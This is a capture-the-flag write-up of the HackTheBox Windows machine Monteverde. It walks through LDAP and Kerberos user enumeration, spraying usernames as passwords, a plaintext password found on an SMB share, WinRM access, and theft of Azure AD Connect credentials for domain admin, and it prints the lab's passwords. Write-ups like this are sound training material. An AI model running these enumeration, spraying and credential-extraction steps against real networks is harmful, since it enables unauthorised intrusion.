```yaml
---
title: "Monteverde - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Monteverde
![](https://kar0nx.github.io/assets/images/writeup/00ceebe5dbef1106ce4390365cd787b4.png)
## Reconnaissance

IP: 10.10.10.172
## NMAP

```
nmap -T4 -p- -A 10.10.10.172
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 05:49 UTC
Nmap scan report for 10.10.10.172
Host is up (0.030s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-30 05:51:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49754/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-30T05:52:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -2s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   30.11 ms 10.10.14.1
2   30.20 ms 10.10.10.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.81 seconds
```

## SMB, LDAP

first gather domain name and users

```
nxc smb 10.10.10.172
nxc ldap 10.10.10.172 -u '' -p '' --query "(objectClass=*)" "*"
```

full ldap scan

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830075502.png)

scan for users:

```
nxc ldap 10.10.10.172 -u '' -p '' --query "(objectClass=*)" "userPrincipalName"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830080041.png)

To confirm valid users I used kerbrute

```
kerbrute userenum -d MEGABANK.LOCAL --dc 10.10.10.172 users.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830081033.png)

Brute force with Welcome1 Passoword1 etc did nothing but when I use usernames as password I found valid credentials:

```
nxc smb 10.10.10.172 -u users.txt -p users.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830081907.png)

Fast scan with valid user I found few shares and new username AAD_987d7f2f57d2 (later I watched Ippsec video and he told that this is account for synchronise azure with local AD )

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830082222.png)

## Gaining Access

now let's enumerate shares.
In users share I found 4 users directory download it and chceck:

```
smbclient \\\\10.10.10.172\\users$ -U SABatchJobs
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830082858.png)

In mhope directory I found azure.xml file 
after opening file I spot the Password: 4n0therD4y@n0th3r$

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830083053.png)

confirm that this is mhope password 

```
nxc smb 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830084040.png)

now let's check for shares and winrm access:
We can connect via evil-winrm and grab user flag

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830084251.png)

## Privilege escalation

running winpeas I found that there is Cloud Credentials and mhope is in Azure Admins group

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830090228.png)

Searching google I found article how to extract this credentials
https://blog.xpnsec.com/azuread-connect-for-redteam/

this didn't work for me but I found simmilar 

https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1?source=post_page-----808ffe5cdded---------------------------------------

Get script on machine, Import module and we have example command in line 13/14 of script

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830092600.png)

administrator d0m@in4dminyeah!
confirming access and we can take root flag

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830093015.png)
